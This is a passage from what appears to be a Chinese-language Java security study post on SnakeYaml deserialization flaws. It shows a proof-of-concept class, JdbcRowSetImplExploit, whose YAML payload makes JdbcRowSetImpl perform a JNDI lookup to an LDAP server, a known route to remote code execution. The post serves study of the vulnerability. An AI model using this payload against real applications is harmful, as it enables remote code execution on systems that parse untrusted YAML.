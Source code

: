 <div align=center><img src="./Java安全学习—SnakeYaml反序列化漏洞/19.png"></div>

### JdbcRowSetImpl
#### 漏洞演示
利用一下`Fastjson`中经典的`JdbcRowSetImpl`, 成功打通.

```java
package org.h3rmesk1t.SnakeYaml;

import org.yaml.snakeyaml.Yaml;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/1 4:39 下午
 */
public class JdbcRowSetImplExploit {

    public static void main(String[] args) {

        String poc = "!!com.sun.rowset.JdbcRowSetImpl\n dataSourceName: \"ldap://127.0.0.1:1389/dx2zdj\"\n autoCommit: true";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```

<div align=center><img src="./Java安全学习—SnakeYaml反序列化漏洞/7.png"></div>
